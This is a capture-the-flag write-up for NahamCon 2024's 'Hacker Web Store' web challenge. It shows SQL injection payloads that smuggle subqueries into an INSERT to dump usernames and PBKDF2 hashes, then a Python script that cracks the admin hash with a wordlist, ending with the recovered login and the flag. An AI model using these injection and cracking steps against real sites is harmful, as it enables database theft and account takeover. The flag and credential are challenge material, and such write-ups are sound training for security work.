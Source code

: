 
# Challenge Name: Hacker Web Store


![date](https://img.shields.io/badge/date-24.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-183-blue.svg)  

## Description

Author: @Jstith  
  
Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.  
  
_This challenge may require a local password list, which we have provided below. **Reminder, bruteforcing logins is not necessary and [against the rules.](https://ctf.nahamcon.com/rules)**_**  
  
**Press the `Start` button on the top-right to begin this challenge.****

**Attachments:**  [password_list.txt](https://ctf.nahamcon.com/files/0b0df3700fc27beb86dfe2b6d8b077a7/password_list.txt?token=eyJ1c2VyX2lkIjozOTA1LCJ0ZWFtX2lkIjoxODczLCJmaWxlX2lkIjo5M30.ZlJYNQ.2HbqOXfKPZjnZbsNoX0nazWNy88)

## Detailed solution

http://challenge.nahamcon.com:32399/

We have an app with login page and option to create posts

![](https://github.com/BaadMaro/CTF/assets/72421091/d6dd28c2-192f-49d3-b123-5997788780be)

![](https://github.com/BaadMaro/CTF/assets/72421091/46b94709-e819-473b-ab09-a58b5419f0b3)

![](https://github.com/BaadMaro/CTF/assets/72421091/fd8c75a1-6418-4bc1-a5b0-fb6db3fb85d7)


While testing posts creation, i detect a SQL injection while sending `'`

![Pasted image 20240525223502](https://github.com/BaadMaro/CTF/assets/72421091/a8089dfa-80b5-4fc2-9b75-167f188a951d)

The values used in post creation have always `'` which block using dynamic data.

We can close the first post values and added next to it a second post with dynamic data like this for description

```
post 1') , ('Product2', '15.99', 'Description2
```

I started checking for columns inside users tables and i was able to detect name and password using `SELECT X FROM users`

```
1') , ('Product2', (SELECT password FROM users), 'Description3
```

We have multiple users so we need to use LIMIT and OFFSET to get all users names and their passwords

```
1') , ('Product2', (SELECT name FROM users LIMIT 1 OFFSET 0), 'Description3
```

```
Joram
```

Repeating the same logic for multiple OFFSET (we have 3 users), we were able to get the users 

```
Joram

James

website_admin_account
```

```
pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b
pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```

As mentioned in challenge description, we have a custom password list to crack the hashes

Doing some research, i found that the Hash format is used by Python Werkzeug `generate_password_hash`

We need to make a custom function and use the same hash type, iterations and salt to generate hashes from passwords list and compare it to our hashes

Here is the example for the `website_admin_account` hash

```python
from werkzeug.security import _hash_internal
import sys

def generate_password_hash(password, method="pbkdf2:sha256:600000"):
    """Hash a password with the given method and salt with a string of
    the given length. The format of the string returned includes the method
    that was used so that :func:`check_password_hash` can check the hash.

    The format for the hashed string looks like this::

        method$salt$hash

    This method can **not** generate unsalted passwords but it is possible
    to set param method='plain' in order to enforce plaintext passwords.
    If a salt is used, hmac is used internally to salt the password.

    If PBKDF2 is wanted it can be enabled by setting the method to
    ``pbkdf2:method:iterations`` where iterations is optional::

        pbkdf2:sha256:80000$salt$hash
        pbkdf2:sha256$salt$hash

    :param password: the password to hash.
    :param method: the hash method to use (one that hashlib supports). Can
                   optionally be in the format ``pbkdf2:<method>[:iterations]``
                   to enable PBKDF2.
    :param salt_length: the length of the salt in letters.
    """
    salt = "MSok34zBufo9d1tc"
    h, actual_method = _hash_internal(method, salt, password)
    return "%s$%s$%s" % (actual_method, salt, h)

f = open("pass.txt", "r")
o = open("crack-admin.txt", "w")

for x in f:
   hash = generate_password_hash(x.strip(),method='pbkdf2:sha256:600000')
   a = f"{x.strip()} {hash}"
   o.write(a)
   print(x.strip())
   if hash == "pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57":
       print(f"{x.strip()} found password")
       sys.exit()
o.close()

```

```
ntadmin1234 found password
```

We got our match with `ntadmin1234`

We can login now with  `website_admin_account:ntadmin1234` and get our flag

## Flag

```
flag{87257f24fd71ea9ed8aa62837e768ec0}
```

